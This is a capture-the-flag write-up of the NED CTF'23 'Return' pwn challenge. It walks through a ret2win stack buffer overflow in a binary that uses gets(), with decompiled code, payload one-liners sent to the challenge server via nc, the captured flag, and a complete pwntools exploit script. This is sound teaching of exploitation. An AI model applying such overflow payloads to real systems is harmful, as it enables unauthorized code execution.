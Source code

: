 ```yaml
---
title: NED CTF'23 - Pwn - Return
date: '2023-07-03'
tags: ['ctf', 'pwn', 'nedctf', 'writeup', 'buffer-overflow', 'x64', 'ret2win']
draft: false
summary: A simple x64 ret2win challenge.
---
```


## Challenge Description

Navigate the maze of memory and claim your prize.

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

```bash
nc 159.223.192.150 9002
```

![chal-info](/static/writeups/nedctf/pwn/return0.png)

## Solution

Downloading the `return.zip`, we get the following files

![files](/static/writeups/nedctf/pwn/return1.png)

The `file` security checks on the binary are as follows

![file](/static/writeups/nedctf/pwn/return4.png)

Let's run the `return` binary to check what it does

![run](/static/writeups/nedctf/pwn/return2.png)

Okay, let's disassemble and check the functions inside ghidra

![functions](/static/writeups/nedctf/pwn/return3.png)

The disassembled main function is as follows

```c
undefined8 main(void) {
  char local_108 [256];

  banner();
  printf("\n\n\nMay I ask what your name is? ");
  gets(local_108);
  printf("Good luck %s!\n",local_108);
  return 0;
}
```

Well, again `gets`, and this time the buffer is `256`. The other function that is of interest is `print_flag`

```c
void print_flag(void) {
  int iVar1;
  FILE *__stream;

  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error: could not open file.");
  }
  else {
    puts("Contents of flag.txt:");
    while( true ) {
      iVar1 = fgetc(__stream);
      if ((char)iVar1 == -1) break;
      putchar((int)(char)iVar1);
    }
    fclose(__stream);
  }
  return;
}
```

Now, this function simply opens the `flag.txt` file and prints it's contents.

### Exploitation

So, we have a buffer overflow vulnerability, and we have a function that prints the flag. We can simply overwrite the return address of the `main` function with the address of `print_flag` function. Let's check the address of `print_flag` function. For that, we'll use my [script](https://gist.github.com/TheFlash2k/198bb805b3591e27b9bf9fc17bee4c4a)

![gadgets](/static/writeups/nedctf/pwn/return6.png)

In x64, we also need to provide a `ret` gadget to ensure that the program doesn't crash. Let's check the `ret` gadget address as well. We will use [ropper](https://github.com/sashs/Ropper) for that

```bash
ropper -f return --search "ret"
```

![gadgets](/static/writeups/nedctf/pwn/return5.png)

Now, since we have both values, we can craft a simple payload, which will be as follows

```md
[padding] + [ret gadget] + [print_flag address]
```

The padding will be `256` bytes to fully-fill the buffer, the ret gadget will be next to accumlate the buffer till RIP overwrite so that the function returns successfully and the print_flag address will be stored on the RIP. Let's craft the payload. But first, we'll `p64` the value of ret gadget:

```bash
$ python3 -c 'import pwn; print(pwn.p64(0x000000000040101a))'
b'\x1a\x10@\x00\x00\x00\x00\x00'
```

So, the payload now becomes:

```bash
python -c 'print "A" * 256 + "\x1a\x10@\x00\x00\x00\x00\x00" + "\xf6\x11@\x00\x00\x00\x00\x00"' | ./return
```

![flag](/static/writeups/nedctf/pwn/return7.png)

We can see that we got the flag, let's pipe the output to `nc` to get the flag remotely

```bash
python -c 'print "A" * 256 + "\x1a\x10@\x00\x00\x00\x00\x00" + "\xf6\x11@\x00\x00\x00\x00\x00"' | nc 159.223.192.150 9002
```

![flag](/static/writeups/nedctf/pwn/return8.png)

We got the flag!

```md
Flag: NCC{r3t_2_w1ns_4r3_fuN}
```

Now, let's a write a simple `exploit.py` for this

```python:exploit.py
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = "./return"
elf = context.binary = ELF(_bin)
rop = ROP(elf)

if len(sys.argv) == 2 and sys.argv[1].lower() == "remote":
	io = remote('159.223.192.150', 9002)
else:
	io = process(_bin)

io.recv()

payload = flat(
	[
		b"A" * 256,
		rop.ret.address,
		elf.sym.print_flag,
		b"\n"
	]
)

io.sendline(payload)
buf = io.recv().decode('latin-1')
print(buf)
```

![flag](/static/writeups/nedctf/pwn/return9.png)
